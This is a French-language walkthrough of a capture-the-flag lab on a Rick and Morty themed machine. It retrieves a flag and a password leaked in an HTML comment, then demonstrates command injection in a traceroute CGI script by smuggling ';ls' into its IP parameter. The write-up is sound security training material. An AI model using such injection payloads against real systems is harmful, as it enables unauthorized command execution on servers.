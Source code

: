 On retrouve un fichier robots.txt et un dossier passwords, en les visitant, on trouve un flag et un fichier `passwords.html`.

```bash
$ curl http://192.168.228.161/passwords/FLAG.txt
FLAG{Yeah d- just don't do it.} - 10 Points
```

```bash	
$ curl http://192.168.228.161/passwords/passwords.html

<!DOCTYPE html>
<html>
<head>
<title>Morty's Website</title>
<body>Wow Morty real clever. Storing passwords in a file called passwords.html? You've really done it this time Morty. Let me at least hide them.. I'd delete them entirely but I know you'd go bitching to your mom. That's the last thing I need.</body>
<!--Password: winter-->
</head>
</html>
```

Intéressant, dans les commentaires, on retrouve un mot de passe `winter`, connaissant le monde de Rick et Morty, on peut poser une hypothèse sur la corrélation avec la sœur de Morty, Summer...


Dans le fichier robots.txt on retrouve des fichiers cachés, on peut essayer de les visiter pour voir ce qu'ils font.

```bash
$  curl http://192.168.228.161/robots.txt
They're Robots Morty! It's ok to shoot them! They're just Robots!

/cgi-bin/root_shell.cgi
/cgi-bin/tracertool.cgi
/cgi-bin/*
```

On retrouve des fichiers cgi, on peut essayer de les visiter pour voir ce qu'ils font.

`root_shell.cgi` est un script vide qui ne fait rien, par contre `tracertool.cgi` est un script qui permet de tracer une route vers une adresse IP. On peut essayer de faire une injection de commande pour voir.


```bash
$ curl "http://192.168.228.161/cgi-bin/tracertool.cgi?ip=localhost%3B+ls"

<html><head><title>Super Cool Webpage
</title></head>
<b>MORTY'S MACHINE TRACER MACHINE</b>
<br>Enter an IP address to trace.</br>
<form action=/cgi-bin/tracertool.cgi
    method="GET">
<textarea name="ip" cols=40 rows=4>
</textarea>
<input type="submit" value="Trace!">
</form>
<pre>
traceroute to localhost (127.0.0.1), 30 hops max, 60 byte packets
 1  localhost (127.0.0.1)  0.012 ms  0.002 ms  0.002 ms
root_shell.cgi
tracertool.cgi
</pre>
</html>
```
On a réussi à injecter la commande `ls`, on connaît donc le contenu du dossier, ce qui nous permet de vérifier les fichiers `root_shell.cgi` et `tracertool.cgi`.